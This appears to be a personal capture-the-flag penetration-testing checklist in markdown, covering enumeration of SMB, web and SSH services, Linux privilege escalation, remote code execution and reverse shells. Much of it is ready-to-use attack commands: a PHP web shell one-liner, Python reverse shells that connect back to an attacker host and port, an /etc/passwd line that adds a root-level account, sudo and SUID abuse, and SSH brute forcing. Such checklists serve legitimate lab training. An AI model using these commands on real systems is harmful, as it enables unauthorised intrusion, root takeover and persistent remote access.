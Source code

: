 # Checklist
# Preperation

<details>
  <summary>Expand</summary>

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)

</details>


# Enumeration

<details>
  <summary>Expand</summary>

<details>
  <summary>NMAP</summary>

	- Test
	- [Howto](active-information-gathering/nmap.md)
	- Copy key findings to report
	- check results
	- Paste to [report](templates/report.md)
	- Highlight exploitables/targets	

</details>	

<details>
  <summary>Rustscan</summary>

	- Test	

</details>	
	

<details>
  <summary>enum4linux</summary>
<br />

- [ ] `enum4linux $IP` -> users, share, comon structure, server block.
	- [ ] Highlights
	- [ ] check results
	- [ ] Check SMB null session
	- [ ] system level users	

</details>	


<details>
  <summary>nmap-nse</summary>
<br />

1. [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)

</details>

<details>
  <summary>smb/netbio-ssn</summary>

	- Ports [139, 445]
	- `mkdir smb`
	- `nmap -p139,445 --script=smb-enum-shares $IP`
		- `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
		- smbclient //'IP'/qui -N
		- crackmapexec
		- mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
	- `smbmap -H $IP`
	- `smbclient --no-pass -L //$IP`
	- `smbclient --no-pass \\\\$IP\\anonymous`
	- `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
	- `mget file.name`
	- `smbmap -u <user> -p <PassWord> -H $IP`
	- `smbclient //'IP'/<share> -U'user'%'password'`
	- `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`	

</details>
	
<details>
  <summary>Apache Tomcat</summary>

	- Apache Tomcat [8080]
			- Read Version
			- Check URL (hints)
			- default credentials
			- mfsconsole /is it allowed?
	
</details>

<details>
  <summary>Domain</summary>

	- TODO
	
</details>

<details>
  <summary>ssl/pop3</summary>

	- TODO
	
</details>
	
<details>
  <summary>ssl/imap</summary>

	- TODO
	
</details>
	
<details>
  <summary>TOPIC</summary>

	- TODO
	
</details>
	
<details>
  <summary>	Morse code</summary>

	- Test	

</details>
	
<details>
  <summary>shellshock</summary>

- /cgi-bin
	- [ ] shellshock [Howto](../../foothold/shellshock/README.md)	
	

</details>
	
<details>
  <summary>SSH</summary>

	- hydra
		- [Howto](tools/bruteforce/ssh/hydra)
		- `curl -A "GoogleBot" http://$IP/robots.txt`
		- searchsploit
		- Port knocking
		- nmap port knock 

</details>
	

<details>
  <summary>WEB Enum</summary>
	
	- Load each targetted port in browser
	- export PORT=80
	- `dirb http://$IP:$PORT/ -r`
	- `nikto --host http://<IP> -C all` :: tool for webapp
	- `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
		- HTTPS you will want to include protocol too
		- `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
		- `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
		- framework/server/service -> searchexploit
		- Check for config through URL's like
		- hostname/username/re-use etc
	- LFI
	- check for ssh keys
	- check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
	- vsftpd -> upload, to rce from upload file
	- RFI
		- rev shell
			- https://www.revshells.com/
				- `python -c 'import pty;pty.spawn("/bin/bash")'`
		- `linpeas.sh`
	- CUPS Http `631`

</details>

</details>


# Privilege Escalation

<details>
	<summary>Expand</summary>

- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] File transfer
		- [ ] [Python http.server](../../tools/file-transfer#python-simple-http-server)
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
	- [ ] `kernel exploits?`
		- [ ] https://github.com/mzet-/linux-exploit-suggester
		- [ ] e.g Dirty Cow [example HowTo](practical/dirty_cow)

</details>


# Remote Code Execution (RCE)

<details>
	<summary>Expand</summary>

- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
</details>


# Reverse Shell

<details>
	<summary>Expand</summary>

- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`

</details>
